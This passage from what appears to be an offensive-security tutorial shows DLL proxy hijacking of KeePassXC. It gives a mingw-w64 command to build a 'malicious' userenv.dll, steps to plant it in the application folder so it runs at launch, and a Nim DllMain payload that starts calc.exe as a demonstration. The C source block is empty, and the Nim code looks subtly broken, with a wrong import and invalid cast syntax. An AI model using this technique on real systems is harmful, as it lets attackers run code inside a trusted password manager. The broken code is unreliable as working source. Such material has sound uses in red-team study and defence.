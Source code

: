 ```c
```

Cross-compiling and linking the malicious Proxy DLL using mingw-w64:

```
i686-w64-mingw32-gcc -shared -o userenv.dll payload.c userenv.def -s
```

Copy the malicious `userenv.dll` proxy and the legitimate `userenv_orig.dll`
to the home folder of KeePassXC. 

Now launch `KeePassXC.exe` and the application behave normally and also execute the Payload by starting `calc.exe`

![](/images/payload_detonation.gif)

Still here? Alright lights try something different to create the payload. Since Nim has an awesome option called [Foreign Function Interface (FFI)](https://nim-lang.org/docs/manual.html#foreign-function-interface) we could also make use of it. Let's switch from C to Nim:


```nim
import winrm, os

proc payload() =
  var si: STARTUPINFO
  var pi: PROCESS_INFORMATION

  let cmd = "calc.exe".toWideCString()

  zeroMemory(cast[ptr](&si), sizeof(si))
  si.cb = sizeof(si)
  zeroMemory(cast[ptr](&pi), sizeof(pi))

  createProcess(nil, cmd, nil, nil, false, 0, nil, nil, cast[ptr](&si), cast[ptr](&pi))

when isMainModule:
  proc dllMain(hinstDLL: HINSTANCE, fdwReason: DWORD, lpReserved: LPVOID): BOOL {.stdcall.} =
    case fdwReason
    of DLL_PROCESS_ATTACH:
      payload()
    of DLL_THREAD_ATTACH, DLL_THREAD_DETACH, DLL_PROCESS_DETACH:
      discard
    result = true

  # Mimic WinAPI DLL loading process
  let hModule = cast[HINSTANCE](getModuleHandle(nil))
  let lpReserved = nil

  let result = dllMain(hModule, DLL_PROCESS_ATTACH, lpReserved)
  if result == false:
    echo "Payload execution failed"
```
